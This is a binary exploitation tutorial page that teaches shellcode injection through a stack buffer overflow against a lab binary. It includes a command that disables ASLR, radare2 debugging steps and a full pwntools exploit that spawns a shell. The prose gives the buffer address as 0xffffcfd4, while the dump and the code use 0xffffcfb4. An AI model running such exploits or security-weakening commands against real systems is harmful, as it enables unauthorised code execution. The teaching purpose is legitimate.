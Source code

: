 ```yaml
---
description: Running your own code
---
```


# Shellcode

In real exploits, it's not particularly likely that you will have a `win()` function lying around - shellcode is a way to run your **own** instructions, giving you the ability to run arbitrary commands on the system.

**Shellcode** is essentially **assembly instructions**, except we input them into the binary; once we input it, we overwrite the return pointer to hijack code execution and point at our own instructions!

{% hint style="danger" %}
I promise you can trust me but you should never _ever_ run shellcode without knowing what it does. Pwntools is safe and has almost all the shellcode you will ever need.
{% endhint %}

The reason shellcode is successful is that [Von Neumann architecture](https://en.wikipedia.org/wiki/Von_Neumann_architecture) \(the architecture used in most computers today\) does not differentiate between **data** and **instructions** - it doesn't matter where or what you tell it to run, it will attempt to run it.  Therefore, even though our input is data, the computer _doesn't know that_ - and we can use that to our advantage.

{% file src="../../.gitbook/assets/shellcode.zip" caption="Shellcode" %}

### Disabling ASLR

ASLR is a security technique, and while it is not specifically designed to combat shellcode, it involves randomising certain aspects of memory \(we will talk about it in much more detail later\). This randomisation can make shellcode exploits like the one we're about to do more less reliable, so we'll be disabling it for now [using this](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization).

```text
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

{% hint style="danger" %}
Again, you should never run commands if you don't know what they do
{% endhint %}

### Finding the Buffer in Memory

Let's debug `vuln()` using `radare2` and work out where in memory the buffer starts; this is where we want to point the return pointer to.

```text
$ r2 -d -A vuln

[0xf7fd40b0]> s sym.unsafe ; pdf
[...]
; var int32_t var_134h @ ebp-0x134
[...]
```

This value that gets printed out is a **local variable** - due to its size, it's fairly likely to be the buffer. Let's set a breakpoint just after `gets()` and find the exact address.

```text
[0x08049172]> dc
Overflow me
<<Found me>>                    <== This was my input
hit breakpoint at: 80491a8
[0x080491a8]> px @ ebp - 0x134
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0xffffcfb4  3c3c 466f 756e 6420 6d65 3e3e 00d1 fcf7  <<Found me>>....

[...]
```

It appears to be at `0xffffcfd4`; if we run the binary multiple times, it should remain where it is \(if it doesn't, make sure ASLR is disabled!\).

### Finding the Padding

Now we need to calculate the padding until the return pointer. We'll use the De Bruijn sequence as explained in the previous blog post.

```text
$ ragg2 -P 400 -r
<copy this>

$ r2 -d -A vuln
[0xf7fd40b0]> dc
Overflow me
<<paste here>>
[0x73424172]> wopO `dr eip`
312
```

The padding is 312 bytes.

### Putting it all together

In order for the shellcode to be correct, we're going to set `context.binary` to our binary; this grabs stuff like the arch, OS and bits and enables pwntools to provide us with working shellcode.

```python
from pwn import *

context.binary = ELF('./vuln')

p = process()
```

{% hint style="info" %}
We can use just `process()` because once `context.binary` is set it is assumed to use that process
{% endhint %}

Now we can use pwntools' awesome shellcode functionality to make it _incredibly_ simple.

```python
payload = asm(shellcraft.sh())          # The shellcode
payload = payload.ljust(312, b'A')      # Padding
payload += p32(0xffffcfb4)              # Address of the Shellcode
```

Yup, that's it. Now let's send it off and use `p.interactive()`, which enables us to communicate to the shell.

```python
log.info(p.clean())

p.sendline(payload)

p.interactive()
```

{% hint style="warning" %}
If you're getting an `EOFError`, print out the shellcode and try to find it in memory - the stack address may be wrong
{% endhint %}

```text
$ python3 exploit.py
[*] 'vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Starting local process 'vuln': pid 3606
[*] Overflow me
[*] Switching to interactive mode
$ whoami
ironstone
$ ls
exploit.py  source.c  vuln
```

And it works! Awesome.

### Final Exploit

```python
from pwn import *

context.binary = ELF('./vuln')

p = process()

payload = asm(shellcraft.sh())          # The shellcode
payload = payload.ljust(312, b'A')      # Padding
payload += p32(0xffffcfb4)              # Address of the Shellcode

log.info(p.clean())

p.sendline(payload)

p.interactive()
```

### Summary

* We injected shellcode, a series of assembly instructions, when prompted for input
* We then hijacked code execution by overwriting the saved return pointer on the stack and modified it to point to our shellcode
* Once the return pointer got popped into EIP, it pointed at our shellcode
* This caused the program to execute our instructions, giving us \(in this case\) a shell for arbitrary command execution

